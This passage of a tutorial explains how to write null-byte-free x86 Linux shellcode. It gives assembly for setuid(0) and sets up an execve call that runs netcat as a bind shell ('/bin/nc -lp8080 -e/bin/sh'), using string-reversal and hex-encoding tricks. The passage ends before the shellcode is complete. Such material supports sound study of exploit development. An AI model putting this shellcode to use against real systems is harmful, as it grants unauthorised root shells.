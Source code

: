 As you probably know the shellcode shouldn't contain null bytes. The null byte is used for string terminaton and you'd probably want to inject
your shellcode in a buffer.

First lets write the *setuid*{: style="color: LightGreen"} syscall. Its system call number is 23 (0x17 in hex). It takes as an argument
*uid*{: style="color: LightGreen"} = 0, stored in *ebx*{: style="color: LightGreen"} register, but since I aren't allowed to use 
null bytes in the code we'll make use of the xor instruction.

```
section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
```

For the *execve*{: style="color: LightGreen"} system call the arguments must be pushed onto the stack and their addresses loaded in the
registers.   
*ebx*{: style="color: LightGreen"} -> *filename*{: style="color: LightGreen"} = '/bin/nc'   
*ecx*{: style="color: LightGreen"} -> *argv[]*{: style="color: LightGreen"} = ['/bin/nc', '-lp8080', '-e/bin/sh']  
*edx*{: style="color: LightGreen"} -> *envp[]*{: style="color: LightGreen"} = 0  

First the strings should be reversed. You could use python for this. Lets take for 
example the first argument *'/bin/nc'*{: style="color: LightSalmon"}

```
>>> '/bin/nc'[::-1]
'cn/nib/'
```

Then convert them to hex and push by groups of four bytes.  
cn/nib/

```
>>> 'nib/'.encode('hex')
'6e69622f'
>>> 'cn/'.encode('hex')
'636e2f'
```

ascii: *cn/*{: style="color: LightSalmon"}   -> hex: *0x00636e2f*{: style="color: LightSalmon"} Has a null byte!  
ascii: *nib/*{: style="color: LightSalmon"}  -> hex: *0x6e69622f*{: style="color: LightSalmon"}  

When the string length isn't a multiple of four bytes, there are few ways to avoid adding a null byte.
the *shr*{: style="color: LightGreen"} (shift right) instruction.

One way is to add another slash in the path, so */bin/nc*{: style="color: LightSalmon"} becomes */bin//nc*{: style="color: LightSalmon"} 
or *//bin/nc*{: style="color: LightSalmon"}. Multiple */*{: style="color: LightSalmon"} don't cause problems in linux and 
the path will be read correctly.
